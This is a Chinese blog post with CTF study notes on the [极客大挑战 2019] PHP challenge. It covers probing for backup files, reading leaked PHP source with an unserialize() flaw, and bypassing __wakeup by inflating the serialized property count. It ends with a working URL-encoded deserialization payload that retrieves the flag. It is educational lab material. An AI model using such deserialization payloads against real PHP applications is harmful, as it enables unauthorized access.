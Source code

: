 <!--yml
category: 未分类
date: 2022-04-26 14:51:51
-->

# CTF学习笔记——[极客大挑战 2019]PHP_Obs_cure的博客-CSDN博客

> 来源：[https://blog.csdn.net/obs_cure/article/details/109404404](https://blog.csdn.net/obs_cure/article/details/109404404)

## 一、[极客大挑战 2019]PHP

##### 1.题目

![在这里插入图片描述](img/d2a42c05c6bbe70c415ace0bfe40b153.png)
题目是一只可爱的猫猫

##### 2.解题步骤

提示备份，因此访问一下index.php~
![在这里插入图片描述](img/cc355a69ead393975546fb814a8ddca7.png)
失败力，访问一下bak呢
![在这里插入图片描述](img/bf8f17c0e24e6eb0349f7bd800b54927.png)
换个思路 访问一下flag.php
![在这里插入图片描述](img/3f4b74ca0311c42a754e9cac0f25ecc3.png)
竟然没有拒绝访问，看来是有这个文件，继续访问flag的备份试试

![在这里插入图片描述](img/8d5e15853ecf6d76df76e4a514d9e654.png)
是我年轻了…看writeup吧~
提示要字典爆破目录…这里先直接抄近路了，以后要学习一下字典爆破目录，直接访问www.zip
![在这里插入图片描述](img/cf9915d3332d94358e2b93f252add361.png)
![在这里插入图片描述](img/7181a79d986e84bc5c5bd90611d21222.png)
flag.php

```
<?php
$flag = 'Syc{dog_dog_dog_dog}';
?> 
```

class.php

```
<?php
include 'flag.php';

error_reporting(0);

class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();
        }
    }
}
?> 
```

index.php只贴出来一部分

```
<?php
	include 'class.php';
	$select = $_GET['select'];
	$res=unserialize(@$select);
?> 
```

首先试一下备份的flag，不出意料的木大了，还是老老实实看代码吧！

一句一句看，首先是传参的`@$select`。$select 是php变量，前面的@是用来抑制错误显示的，添加这个只是为了让浏览者不看到，不友好的页面，并不能抑制住错误，只能抑制显示错误。
第二是`unserialize()`。其含义为对单一的已序列化的变量进行操作，将其转换回 PHP 的值。

这里PHP水平实在是不过关，但可以确定的是select对象是一个class.php中的name类，在select被实例化后会调用相应的函数。
继续看class.php中的源码，`__construct()`和`__destruct()`相当于是构造和析构函数，分别在对象被实例化和对象被销毁的时候被调用。而`__wakeup()`和`__sleep()`是一对方法，分别是在对象序列化和反序列化的时候调用。
以上四个方法，名字前面都带有__两个下划线，类似这种的被称为魔术方法。

因此理一下逻辑关系，在index.php下面select对象被创建，然后执行了`__construct()`和`__destruct()`方法后，`unserialize(@$select);`又调用了`__wakeup()`方法。而php的特性，在请求结束后，也会自行销毁对象。

再返回class.php中看，在对象被销毁的时候，如果username=admin且password=100的时候才会显示flag。但明显中间会调用一次`__wakeup()`把username改掉。因此需要绕过`unserialize(@$select);`

在查阅相关资料后，得到了`__wakeup()`绕过的方式，为：
**当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过__wakeup的执行。**

这里先贴一下师傅的代码，便于观察name类中的属性。

```
<?php
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
    public function __construct($username,$password){
    	$this->username = $username;
        $this->password = $password;
    }
    public function __wakeup(){
    	$this->username = "guests";
    }
    public function fun(){
    	echo $this->username;echo "<br>";echo $this->password;
    }
}
$a = serialize(new Name("admin",100));
echo $a;
?> 
```

![在这里插入图片描述](img/ed4b77a37205fb18ddfd751f74fa8205.png)
因此构造payload:`?select=O:4:"Name":3:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}`
在上面的payload中，有两点需要注意。

1.  在把username和password传入。在payload前面大括号前面的数字，代表对象的属性数。原对象是2，这里改成3，传递的属性大于原对象属性，因此绕过了`__wakeup()`。
2.  在Name和username前面有\0前缀，这与php的序列化方式有关。但在url提交payload的时候使用\0会被当成空白符丢失。因此要讲\0替换成%00。

重新构造payload:`?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}`
得到flag
![在这里插入图片描述](img/d9f33fa8a2166d04f90b6e1b18ea2a2c.png)

##### 3.总结

1.  PHP真的很重要…看代码太吃力了…
2.  看wp的时候，师傅的扫目录的脚本网站炸了，需要找一个备着…

##### 4.参考资料